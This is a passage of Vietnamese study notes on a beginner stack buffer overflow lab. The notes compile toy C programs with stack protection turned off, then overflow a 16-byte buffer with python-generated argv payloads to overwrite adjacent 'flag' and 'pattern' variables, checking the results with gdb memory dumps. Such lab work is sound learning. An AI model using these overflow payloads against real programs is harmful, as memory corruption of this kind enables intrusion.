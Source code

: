 |      |ebp(Frame pointer)
|      |eip(return address)
|      |argc
|______|argv
- Nếu buffer chứa > 16 ký tự sẽ xảy ra trg hợp buffer overflow và ghi đè xuống biến flag
- Command: 
    + gcc -g flag.c -o flag.out -fno-stack-protector -mpreferred-stack-boundary=2
    + ./flag.out 123456789 (lúc này argc = 123456789, còn argv[0] = ./flag, argv[1] = 123456789)
    + ./flag.out $(python -c "print('a'*16)")
- `gdb` Command
    + gdb flag.out
    + disas main
    + r $(python -c "print('a'*18)")
    + Đặt breakpoint sau lệnh sub esp và sau khi sao chép chuỗi: break *0x0804843e break *0x0804845d
    + x/32xb $esp: để xem 32byte(8 ô stack frame) từ esp đi lên 
    + continue để tiếp tục, sau đó sẽ sao chép chuỗi
    + x/32xb $esp: để xem 32byte(8 ô stack frame) từ esp đi lên :
    0xffffd744:     0x61    0x61    0x61    0x61    0x61    0x61    0x61    0x61
    0xffffd74c:     0x61    0x61    0x61    0x61    0x61    0x61    0x61    0x61
    0xffffd754:     0x61    0x61    0x00    0x00    0x00    0x00    0x00    0x00
    0xffffd75c:     0x47    0xe6    0xe2    0xf7    0x02    0x00    0x00    0x00
    + 16 byte đầu là 16 ký tự a trong chuỗi, 2 byte còn lại là 2 byte tràn sang biến flag


`pattern`
- Phải nhập giá trị cho  biến pattern có giá trị là 62426141
- `gdb` command
    +  ./pattern.out $(python -c "print('a'*16 + 'bBaA')")
    +  ./pattern.out $(python -c "print('a'*16 + '\x62\x42\x61\x41')")
`Stack Frame`
|           |    
|           |buffer[16]
|           |
|           |    
|           |
|           |
|62 42 61 41|pattern(Theo nguyên tắc little edian phải ghi ngược lại)
|           |ebp(Frame pointer)
|           |eip(return address)
|           |argc
|___________|argv
